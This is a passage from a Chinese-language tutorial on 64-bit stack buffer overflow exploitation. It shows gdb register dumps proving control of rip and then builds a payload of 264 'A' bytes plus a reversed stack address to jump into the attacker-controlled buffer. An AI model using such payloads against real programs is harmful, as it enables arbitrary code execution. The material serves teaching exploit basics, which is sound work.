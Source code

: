 rsp指向0x7fffffffddb8而0x7fffffffddb8的内容就是0x0000424242424242。看来一切正常是时候执行ret指令了。

```
(gdb) stepi 
Cannot access memory at address 0x424242424242 
Cannot access memory at address 0x424242424242 
(gdb) i r 
rax     0x0     0 
rbx     0x0     0 
rcx     0xffffffffffffffff  -1 
rdx     0x7ffff7dd59e0 140737351866848 
rsi     0x7ffff7ff7000 140737354100736 
rdi     0x1     1 
rbp     0x4141414141414141   0x4141414141414141 
rsp     0x7fffffffddc0  0x7fffffffddc0 
r8      0x4141414141414141 4702111234474983745 
r9      0x4141414141414141 4702111234474983745 
r10     0x4141414141414141 4702111234474983745 
r11     0x246   582 
r12     0x400520 4195616 
r13     0x7fffffffde90 140737488346768 
r14     0x0     0 
r15     0x0     0 
rip     0x424242424242  0x424242424242 
eflags  0x246 [ PF ZF IF ] 
cs      0x33    51 
ss      0x2b    43 
ds      0x0     0 
es      0x0     0 
fs      0x0     0 
gs      0x0     0 

```

我们最终控制了rip

0x05 跳入用户控制的缓冲区
---------------

* * *

事实上这部分内容没什么特别的或者新的东西你只需要指向你控制的缓冲区开头。也就是第一个printf显示出来的值在这里是0x7fffffffdc90。通过gdb也可以很容易地重新获得这个值你只需在调用strcpy之后显示栈。

```
(gdb) x/4xg $rsp 
0x7fffffffdc80: 0x00007fffffffde98 0x00000002f7ffe520 
0x7fffffffdc90: 0x4141414141414141 0x4141414141414141 

```

是时候更新我们的载荷了。新的载荷看起来像这样

```
"A" * 264 + "\x7f\xff\xff\xff\xdc\x90"[::-1] 

```
